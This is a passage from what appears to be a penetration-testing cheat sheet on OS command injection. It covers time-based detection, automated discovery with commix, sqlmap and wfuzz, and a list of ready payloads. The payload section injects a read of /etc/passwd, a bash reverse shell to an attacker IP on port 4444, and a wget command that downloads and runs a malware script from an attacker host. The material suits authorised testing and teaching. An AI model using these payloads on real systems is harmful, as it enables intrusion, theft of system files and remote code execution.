     **Example:**

    ```
    http://<target_domain>/ping?ip=127.0.0.1;sleep 10
    ```

    If the server delays its response by 10 seconds, the injection was successful.

### 5. Automated Discovery with Tools

*   **Commix:** An automated tool to discover and exploit command injection vulnerabilities.

    ```
    commix --url="http://<target_domain>/ping?ip=127.0.0.1"
    ```
*   **SQLMap** (OS Command Injection mode): Use SQLMap to test for OS command injection.

    ```
    sqlmap -u "http://<target_domain>/ping?ip=127.0.0.1" --os-cmd="whoami"
    ```

### 6. Fuzzing for Command Injection

*   Use fuzzing tools like `ffuf` or `wfuzz` to automatically test inputs for injection.

    **Example:**

    ```
    wfuzz -c -z file,/path/to/command-injection-payloads.txt --hc 404 "http://<target_domain>/ping?ip=FUZZ"
    ```

## Command Injection Payloads

Here are several common payloads for Command Injection:

### 1. Basic File Read

* Inject a command to read sensitive files:

```
127.0.0.1; cat /etc/passwd
```

### 2. Reverse Shell Payload

* Inject a command to establish a reverse shell:

```
127.0.0.1; bash -i >& /dev/tcp/<attack_ip>/4444 0>&1
```

### 3. Download and Execute Malware

* Inject a command to download and execute malware:

```
127.0.0.1; wget http://<attack_ip>/malware.sh -O /tmp/malware.sh; bash /tmp/malware.sh
```
